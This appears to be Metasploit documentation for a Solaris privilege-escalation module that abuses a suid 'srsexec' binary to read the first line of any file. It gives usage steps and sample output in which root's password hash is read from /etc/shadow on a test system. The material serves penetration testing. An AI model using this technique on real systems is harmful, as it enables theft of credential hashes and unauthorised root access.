 ## Vulnerable Application

  The vulnerable binary (`srsexec`) is included in the package Sun Remote Services
  Net Connect Software Proxy Core (SUNWsrspx).  The vulnerable versions are
  3.2.3 and 3.2.4, for Solaris 10.  This package was included on the extras/companion CD which
  doesn't seem to available anymore.  `srsexec`'s vulnerability is that it runs with the suid bit set,
  and in debug verbose mode if given a file as input, the first line of that file will be echoed back.
  Common exploitation is to read `/etc/shadow`, to get root's password hash, however any file can be read.

  In lieu of this, a mock application was created in python and is available
  [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/srsexec).
  Follow the instructions in the python script to install, `argparse` also needs to be sent
  to the Solaris box since pypi.org doesn't accept ssl2/3 which are the only versions in Solaris 10u9.

  The output from `srsexec` is slightly odd.  The first line of the file will be
  after `binaries file line: ` and truncated at 20 characters.  If the output is longer than 20 characters,
  then the next line will start with the last 2 characters from the previous line, followed by the next 
  18 characters, and so on.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a user level session
  4. Do: ```use solaris/escalate/srsexec_readline```
  5. Do: ```set session [#]```
  6. Do: ```run```
  7. You should be able to read the first line of a file.
  8. If `/etc/shadow` is selected, check `creds`.

## Options

### File

  The file that should have the first line read.  Default is `/etc/shadow` and root's hash will be databased.

## Scenarios

### Solaris 10 u9 with mock binary and python 2.4

```
msf post(solaris/escalate/srsexec_readline) > run

[+] 3.2.4 is vulnerable
[+] Raw Command Output: verify_binary(vFYZf)
srsexec: binary_name: vFYZf
srsexec: name_buf: vFYZf_______________
binaries file line: root:MW7h.vpI1Kq1g:1
binaries file line: :17599::::::
smmsp:NP
Security verification failed for binary: vFYZf
see SYSLOG(/var/adm/messages) for errors
[+] First line of /etc/shadow: root:MW7h.vpI1Kq1g:17599::::::
[+] Adding root's hash to the credential database.
[*] Post module execution completed
msf post(solaris/escalate/srsexec_readline) > creds
Credentials
===========

host          origin        service       public   private        realm  private_type
----          ------        -------       ------   -------        -----  ------------
              1.1.1.1                     root     MW7h.vpI1Kq1g         Nonreplayable hash
```
